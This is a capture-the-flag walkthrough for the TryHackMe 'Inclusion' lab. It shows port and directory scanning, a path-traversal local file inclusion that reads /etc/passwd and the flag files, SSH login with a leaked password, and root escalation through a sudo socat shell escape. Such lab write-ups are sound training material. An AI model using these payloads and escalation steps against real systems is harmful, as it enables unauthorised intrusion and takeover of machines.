




# Inclusion
**Date:** January 20th 2022

[**Link**](https://tryhackme.com/room/inclusion) to the Inclusion CTF on TryHackMe.

This is rated as an easy CTF for beginners.

<br>

## Objectives
This CTF requires that you find the following:
- User flag
- Root flag

<br>

## Nmap Scan

I start with an `nmap` scan to see which ports are open:
```
sudo nmap -sC -sV -A -oN inclusion.nmap 10.10.132.179
```
We only see 2 - ssh and http:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```

<br>

## Website

First things first, let's run a `gobuster` scan:
```
gobuster dir -u http://10.10.132.179 -w /usr/share/wordlists/dirb/common.txt -t 50 -r -o inclusion.buster -x php,txt,html 2& > /dev/null
```
The scan only shows one result and navigating to it does not work.
```
/article              (Status: 500) [Size: 290]
```

When navigating to the main website the following appears:



Clicking on the blue learn more button doesn't do anything, but if you click on the 3 view details buttons it gives you a description of the attacks.

Read through these as they are key concepts for this CTF.

While on the LFI-attack view details screen you'll notice the URL displays:
```
http://10.10.132.179/article?name=lfiattack
```

Reading through the description of this attack explains how to modify what comes after **name=** to view information on the webserver itself.

With the following URL we are able to view the contents of the **/etc/passwd** file and figure out some user names to potentially login via ssh with:
```
http://10.10.132.179/article?name=../../../etc/passwd
```
**TIP:** the above displays unformatted text that is very hard to read. You can view the page source and it formats it much nicer for you: Either add **view-source:** in front of the URL or right click the page and select view source.
```
view-source:http://10.10.132.179/article?name=../../../etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:<REDACTED>
```
And to help understand what this all means here is a quick breakdown of what each of these fields represent. Fields are separated by :'s
```
username : password (only shows x due to shadowing) : user ID : group ID : GECOS info : home dir : shell
```
Looking at the falconfeast user you'll notice extra information after the shell:
```
#falconfeast:<REDACTED>
```

Let's see what that's all about.

<br>

## Logging into the system

We have a username of falconfeast, and the strange comment after his user entry in the **/etc/passwd** file. Let's try and login via `ssh` with those 2 pieces of info:
```
┌──(kali㉿kali)-[~/work]
└─$ ssh falconfeast@10.10.132.179
The authenticity of host '10.10.132.179 (10.10.132.179)' can't be established.
ED25519 key fingerprint is SHA256:P/7iIMaP0XJ+fmztBwOlGFKmTzcG70wdIP+zi/K87k0.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.132.179' (ED25519) to the list of known hosts.
falconfeast@10.10.132.179's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jan 21 08:43:27 IST 2022

  System load:  0.0               Processes:           86
  Usage of /:   34.9% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.132.179
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$
```
We're in! Let's see if we can find the user flag by looking in their home directory:
```
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
<REDACTED>
```
1 flag down and 1 to go!

Now let's see if we can escalate our priviles and get the root flag. I start out with the standard `sudo -l` to see if we can run anything as root:
```
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
It turns out we can use `socat` as root which is a tool similar to netcat.

Let's check out [**https://gtfobins.github.io/**](https://gtfobins.github.io/) to see if there's an easy way to break out of that command to a root shell:



We can see there are several methods listed for socat. Here is the information on how to utilize this via sudo:



Running the `sudo socat stdin exec:/bin/sh` command:
```
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
```
You'll notice in the description that it mentions it will not be a proper TTY shell which is why you do not see a prompt of any kind.

While not really necessary for this CTF I'll show you quickly upgrade this shell so it functions like a normal interactive shell:
```
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@inclusion:~# export TERM=xterm
export TERM=xterm
root@inclusion:~# ^Z
[1]+  Stopped                 sudo socat stdin exec:/bin/sh
falconfeast@inclusion:~$ stty raw -echo; fg
sudo socat stdin exec:/bin/sh

root@inclusion:~#
```
And now we have a shell that's much easier to use. Let's look in the **/root** directory for the root flag:
```
root@inclusion:~# cd /root
root@inclusion:/root# ls
root.txt
root@inclusion:/root# cat root.txt
<REDACTED>
```

**Note**: We could have easily obtained the two flags via LFI like we did when displaying the **/etc/passwd** file earlier since it appears the webserver is running under the root user giving us access to the **/root** directory. I wanted to assume we didn't know the filenames of the flags and obtain them without shortcuts.
```
This gives you the user flag:

http://10.10.132.179/article?name=../../../home/falconfeast/user.txt

This gives you the root flag:

http://10.10.132.179/article?name=../../../../root/root.txt
```

We've now solved this CTF and have both flags!

 

Many thanks to:
- [**falconfeast**](https://tryhackme.com/p/falconfeast) for creating this CTF.
- **TryHackMe** for hosting this CTF.


Visit TryHackMe at: [**https://tryhackme.com**](https://tryhackme.com)
